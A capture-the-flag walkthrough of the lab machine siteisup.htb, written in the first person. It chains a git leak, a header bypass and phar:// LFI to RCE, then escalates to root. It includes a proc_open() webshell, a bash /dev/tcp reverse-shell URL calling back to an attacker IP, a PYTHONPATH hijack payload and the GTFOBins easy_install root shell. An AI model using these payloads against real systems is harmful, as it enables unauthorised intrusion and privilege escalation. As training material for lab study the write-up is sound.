Exploitation Summary
Exploitation process: The target was running a web application on siteisup.htb that provided a site availability checker. Initial enumeration revealed a /dev subdomain protected by HTTP authentication via an .htaccess file, but this protection was bypassed by discovering an exposed .git repository that leaked the source code and the required Special-Dev HTTP header.
The /dev application allowed file uploads with extension filtering, but .phar archives were permitted. By combining a local file inclusion (LFI) vulnerability in the index.php page parameter with the phar:// PHP stream wrapper, I achieved remote code execution by uploading a ZIP archive containing a PHP webshell and accessing it through the LFI with phar:// wrapper. PHP's disable_functions directive blocked most dangerous functions, but proc_open() remained available, allowing command execution and a reverse shell as www-data.
Privilege escalation to the developer user was achieved by exploiting a SUID binary that executed a Python script importing the requests module. Since the SUID binary preserved environment variables, I hijacked the Python module search path using PYTHONPATH to load a malicious requests.py file that spawned a bash shell, granting access as developer. Finally, root access was obtained by exploiting sudo permissions on the easy_install binary, using a GTFOBins technique to execute arbitrary Python code with root privileges.
Technologies/Exploits: Git repository exposure and source code disclosure, LFI combined with PHAR deserialization for RCE, proc_open() PHP function bypass, SUID binary exploitation via Python library hijacking with PYTHONPATH, easy_install GTFOBins privilege escalation.
Initial Reconnaissance
I begin with an nmap scan to enumerate open ports and running services on the target machine:

The scan reveals SSH on port 22 and an HTTP server on port 80. Visiting the web application, I find a simple interface for checking if websites are up or down:

I add siteisup.htb to my /etc/hosts file and begin enumerating the application. My first thought is to test for SSRF vulnerabilities through the site checker functionality, but I decide to perform directory enumeration first.
Directory Enumeration and Virtual Host Discovery
Using gobuster, I discover a /dev/ directory with an index.php file that appears empty or inaccessible:

I also find a virtual host during subdomain enumeration:
dev.siteisup.htb Status: 403 [Size: 281]Adding dev.siteisup.htb to my hosts file and attempting to access it returns a 403 Forbidden error, indicating the subdomain exists but access is restricted.
Testing SSRF Capabilities
Testing the main application with a simple URL like asd.com, I observe the response:

When enabling debug mode, the application acts as a proxy and reveals more information about its internal workings:

I attempt to upload a webshell through the file upload functionality, but as expected, it gets blocked by extension filtering:

I also try to perform SSRF by scanning internal ports to discover additional services, but only port 80 responds as open. Interestingly, when I try to access dev.siteisup.htb through the SSRF functionality, the application reports it as down:

Git Repository Discovery
Since the SSRF approach isn't yielding results, I continue enumerating directories. Using a common wordlist, I discover an exposed .git directory in the /dev path:

This is a critical finding. An exposed Git repository can leak source code, credentials, and other sensitive information. I use git-dumper to extract the repository contents:
python3 -m venv venv
source venv/bin/activate
pip3 install git-dumper
git-dumper http://siteisup.htb/dev/ gitfolderSource Code Analysis - Bypassing Access Controls
Examining the extracted source code, I find an .htaccess file that explains why dev.siteisup.htb was returning 403:
SetEnvIfNoCase Special-Dev "only4dev" Required-Header
Order Deny,Allow
Deny from All
Allow from env=Required-HeaderThis configuration requires a custom HTTP header Special-Dev: only4dev to access the development site. I configure Burp Suite to automatically add this header to all requests, allowing me to freely browse the protected application.
The development version of the site has similar functionality to the main site but includes an additional feature: file upload to check multiple websites at once:

Analyzing the File Upload Mechanism
Reviewing the source code, I find the extension validation logic in the upload handler:
$ext = getExtension($file);
if(preg_match("/php|php[0-9]|html|py|pl|phtml|zip|rar|gz|gzip|tar/i",$ext)){
die("Extension not allowed!");
}
function getExtension($file) {
$extension = strrpos($file,".");
return ($extension===false) ? "" : substr($file,$extension+1);
}The code uses strrpos() to find the last occurrence of a dot and extract the extension. It blocks common executable and archive extensions including PHP files and ZIP archives. However, I notice that .phar files are not blacklisted.
After the file is uploaded to a subdirectory under /uploads with directory listing enabled, the application performs curl requests to the URLs listed in the uploaded file.
Discovering the LFI Vulnerability
Examining index.php in the development site, I discover a local file inclusion (LFI) vulnerability:
<b>This is only for developers</b>
<br>
<a href="?page=admin">Admin Panel</a>
<?php
define("DIRECTACCESS",false);
$page=$_GET['page'];
if($page && !preg_match("/bin|usr|home|var|etc/i",$page)){
include($_GET['page'] . ".php");
}else{
include("checker.php");
}
?>The page parameter allows including files, but with limitations:
- It blocks paths containing
bin,usr,home,var, oretc - It automatically appends
.phpto the included file
However, these restrictions can be bypassed using PHP stream wrappers, specifically the phar:// wrapper, which allows accessing files inside PHAR/ZIP archives.
Exploitation Strategy - Combining Upload with LFI
My exploitation approach combines the file upload functionality with the LFI vulnerability:
- Create a PHP file containing a webshell
- Package it in a ZIP archive with a non-blacklisted extension
- Upload the archive through the file upload form
- Use the LFI with
phar://wrapper to execute the PHP file inside the ZIP
After some trial and error, I successfully achieve code execution:

Interestingly, I initially planned to create a script to immediately access the uploaded file since the upload directory name is generated with md5(time()), making it predictable if I replicate the timing. However, I discover that uploading ZIP files causes the server to bug out and not delete the uploaded files, giving me plenty of time to access them. There is a cron job that periodically cleans the /uploads directory, but it doesn't run frequently enough to interfere.
Achieving Initial Access
The steps I follow to gain initial access are:
First, I create a PHP file that simply displays phpinfo() to confirm code execution:
<?php phpinfo(); ?>I save it as info.php and create a ZIP archive with a non-blacklisted extension:
zip info.asd info.phpAfter uploading it through the web interface, I access it using the LFI vulnerability:
http://dev.siteisup.htb/?page=phar://uploads/5fc124601504718b231fe90207aaee1f/info.asd/infoNote that I don't need to add .php to the filename since the LFI code automatically appends it.
Bypassing disable_functions
I attempt to upload a webshell that uses system() or shell_exec(), but neither function works. Reviewing the phpinfo() output, I discover that PHP has been hardened with disable_functions, blocking most dangerous functions:
disable_functions: pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare,error_log,system,exec,shell_exec,popen,passthru,link,symlink,syslog,ld,mail,stream_socket_sendto,dl,stream_socket_client,fsockopenAfter researching alternative execution methods, I discover that proc_open() is not disabled. This function allows spawning processes and capturing their output. I create a new webshell using proc_open():
<?php
$descriptorspec = array(
0 => array("pipe", "r"),
1 => array("pipe", "w"),
2 => array("pipe", "w")
);
$process = proc_open($_GET['cmd'], $descriptorspec, $pipes);
echo stream_get_contents($pipes[1]);
?>I package this as webshell.php, zip it with a non-blacklisted extension, upload it, and test it with the id command:

With command execution confirmed, I use the webshell to launch a reverse shell:
http://dev.siteisup.htb/?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.16.2/443%200%3E%261%22&page=phar://uploads/d50d5fd2bbec62a9e6dbb387630dcf35/webshell.asd/webshellI successfully receive a reverse shell connection as the www-data user.
Lateral Movement to Developer
Enumerating the filesystem, I discover a user named developer in /home:
ls -ls /hometotal 4
4 drwxr-xr-x 6 developer developer 4096 Aug 30 2022 developerI can access the developer's home directory but cannot read the user flag yet. Inside /home/developer/dev, I find an interesting SUID binary and a Python script:
ls -la /home/developer/devtotal 32
drwxr-x--- 2 developer www-data 4096 Jun 22 2022 .
drwxr-xr-x 6 developer developer 4096 Aug 30 2022 ..
-rwsr-x--- 1 developer www-data 16928 Jun 22 2022 siteisup
-rwxr-x--- 1 developer www-data 154 Jun 22 2022 siteisup_test.pyThe siteisup binary has the SUID bit set and is owned by developer, meaning it executes with developer's privileges. Let me verify it's a binary:
file siteisupsiteisup: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b5bbc1de286529f5291b48db8202eefbafc92c1f, for GNU/Linux 3.2.0, not strippedWhen I execute the binary, it prompts for a URL but crashes with a syntax error:
./siteisupWelcome to 'siteisup.htb' application
Enter URL here:10.10.16.2
Traceback (most recent call last):
File "/home/developer/dev/siteisup_test.py", line 3, in <module>
url = input("Enter URL here:")
File "<string>", line 1
10.10.16.2
^
SyntaxError: invalid syntaxThe error reveals that the binary is executing the siteisup_test.py Python script. I examine the script:
import requests
url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
print "Website is up"
else:
print "Website is down"The script is straightforward: it imports the requests module, prompts for a URL, makes an HTTP request, and checks if the response status is 200. The fact that the binary executes this Python script and has the SUID bit set presents an opportunity for exploitation.
Python Library Hijacking via PYTHONPATH
Since the SUID binary executes a Python script that imports requests, I can exploit this by hijacking the module import process. Python searches for modules in the following order:
- The directory containing the script being executed
- Directories specified in the
PYTHONPATHenvironment variable - Standard library directories
I cannot write to the directory where siteisup_test.py is located:
touch asdtouch: cannot touch 'asd': Permission deniedHowever, I can manipulate the PYTHONPATH environment variable. Importantly, when a SUID binary is executed (as opposed to using sudo), environment variables are preserved, making this attack vector viable.
I create a malicious requests.py file in /tmp that spawns a bash shell instead of providing HTTP request functionality:
import os
os.system('/bin/bash')Then I set PYTHONPATH to point to /tmp:
export PYTHONPATH=/tmpNow when I execute the SUID binary, Python will find my malicious requests.py in /tmp before looking in the standard library. Since the binary runs with developer's privileges, the spawned bash shell will also run as developer:
./siteisupWelcome to 'siteisup.htb' application
developer@updown:/home/developer/dev$I successfully escalate to the developer user. Interestingly, I still cannot directly read the user flag from this shell, but I find an SSH private key in .ssh/id_rsa. I copy this key to my local machine and use it to authenticate via SSH, which grants me full access to the developer account and the ability to read the user flag.
Privilege Escalation to Root
As the developer user, I check for sudo privileges:
sudo -lMatching Defaults entries for developer on localhost:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User developer may run the following commands on localhost:
(ALL) NOPASSWD: /usr/local/bin/easy_installThe developer user can execute /usr/local/bin/easy_install with sudo without a password. Let me examine this binary:
file /usr/local/bin/easy_install/usr/local/bin/easy_install: Python script, ASCII text executablecat /usr/local/bin/easy_install#!/usr/bin/python
# -*- coding: utf-8 -*-
import re
import sys
from setuptools.command.easy_install import main
if __name__ == '__main__':
sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
sys.exit(main())easy_install is a Python package installer, similar to pip. It's part of the setuptools package and is used to install Python packages.
Unlike the previous SUID exploitation, I cannot use PYTHONPATH hijacking here because sudo has env_reset enabled, which clears environment variables before execution.
However, easy_install is a well-known binary that can be abused for privilege escalation. I find the technique on GTFOBins: https://gtfobins.github.io/gtfobins/easy_install/#sudo
Understanding the easy_install Exploit
The exploit works by leveraging easy_install's ability to execute setup.py files during package installation. When you run easy_install on a directory, it looks for a setup.py file and executes it as part of the installation process. Since we're running easy_install with sudo, the setup.py script will execute with root privileges.
Following the GTFOBins guide, I execute these commands to escalate to root:
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TFThe commands work as follows:
TF=$(mktemp -d)creates a temporary directory- I write a malicious
setup.pythat usesos.execl()to spawn a shell sudo easy_install $TFruns easy_install on the temporary directory with root privileges- easy_install executes the
setup.pyfile as root, spawning a root shell
After executing these commands, I successfully obtain a root shell and can read the root flag, completing the machine.